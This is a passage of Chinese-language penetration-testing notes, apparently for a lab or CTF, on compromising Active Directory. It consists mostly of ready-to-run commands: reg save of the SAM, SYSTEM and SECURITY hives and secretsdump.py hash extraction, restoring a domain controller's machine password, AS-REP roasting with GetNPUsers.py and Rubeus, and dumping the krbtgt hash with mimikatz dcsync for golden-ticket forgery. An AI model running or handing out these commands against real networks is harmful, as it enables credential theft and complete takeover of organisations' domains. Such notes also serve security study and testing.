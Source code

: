 在域控执行以下命令，导出本地注册表的值

```
reg save HKLM\SYSTEM system
reg save HKLM\SAm sam
reg save HKLM\SECURITY security
```

使用`secretsdump.py`导出注册表中的哈希值。`plain_passwprd_hex` 即为机器用户未重置前的密码（hex编码）

```bash
python secretsdump.py -sam sam -system system -security security local
```

通过`restorepassword.py`恢复域控机器用户的密码

```bash
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

### AS-REP Roasting

保存为user.txt然后枚举未设置预认证的账号（这个东西默认是不关闭的，但当关闭了预身份验证后，攻击者可以使用指定用户向域控制器的Kerberos 88端口请求票据，此时域控不会进行任何验证就将TGT和该用户Hash加密的Login Session Key 返回。因此，攻击者就可以对获取到的用户Hash加密的 Login Session Key 进行离线破解，如果字典够强大，则可能破解得到该指定用户的明文密码）

```bash
# 这个脚本会尝试获得并列出不需要Kerberos域认证(UF_DONT_REQUIRE_PREAUTH)的用户，输出和JtR兼容。
proxychains4 python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile user.txt xiaorang.lab/
```

不需要枚举的话，也可以使用如下工具

```bash
.\Rubeus.exe asreproast /user:USER /domain:DOMIAN /dc:DOAMIN-CON 
```

### 黄金票据攻击

TGT 为 krbtgt 的 NTLM 哈希值加密生成的，如果获取 krbtgt 的哈希值，便可以伪造任意用户。

攻击需要以下信息：域名、域 SID、krbtgt 哈希值、伪造的用户

#### 导出 krbtgt 的 NTLM Hash

在 mimikatz 下执行以下命令

```bash
mimikatz.exe "lsadump::dcsync /domain:teamssix.com /user:krbtgt" exit
```

这里得到 krbtgt 的 NTLM Hash 为 d685b9c4fa2d318a9943ed68948af087

该命令使用的 dcsync 功能远程转储 AD 里的 ntds.dit，使用 /user 参数，可以只导出指定用户的值。

或者使用以下命令获取 krbtgt 的 NTLM Hash ，域 SID 值，但该命令无法获取 AES-256 的值

```bash
mimikatz.exe "privilege::debug" "lsadump::lsa /patch /user:krbtgt"
mimikatz.exe "privilege::debug" "lsadump::lsa /patch " # 获取所有用户的信息
```
